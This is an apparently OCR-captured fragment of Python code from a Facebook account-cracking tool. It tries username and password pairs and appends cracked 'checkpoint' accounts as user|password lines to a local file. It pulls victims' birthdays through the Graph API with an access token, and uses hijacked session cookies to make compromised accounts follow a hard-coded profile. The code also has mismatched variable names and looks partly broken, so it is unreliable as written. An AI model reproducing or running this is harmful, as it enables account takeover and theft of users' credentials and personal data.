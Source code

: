                     self.follow(session,coki)

                    break

                elif 'checkpoint' in session.cookies.get_dict():

                    try:

                        tokenz = open('.token.txt').read()

                        cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={token}').json()['birthday']

                        month, day, year = cp_ttl.split('/')

                        month = bulan_ttl[month]

                        

                        wrt = '%s|%s' % (use,w)

                        cp.append(wrt)

                        open('/sdcard/aziz_CP.txt' , 'a').write('%s\n' % wrt)

                        break

                    except (KeyError, IOError):

                        month = ''

                        day   = ''

                        year  = ''

                    except:

                        pass

                    

                    wrt = '%s|%s' % (usr,w)

                    cp.append(wrt)

                    open('/sdcard/aziz_CP.txt' , 'a').write('%s\n' % wrt)

                    break

                else:

                    continue

            loop+=1

        except:

            self.__metode__(user, pw, cebok)

    def follow(self, session, coki):

        r = BeautifulSoup(session.get('https://mbasic.facebook.com/AliBaloch356', cookies={'cookie': coki}).text, 'html.parser')

        get = r.find('a', string='Ikuti').get('href')
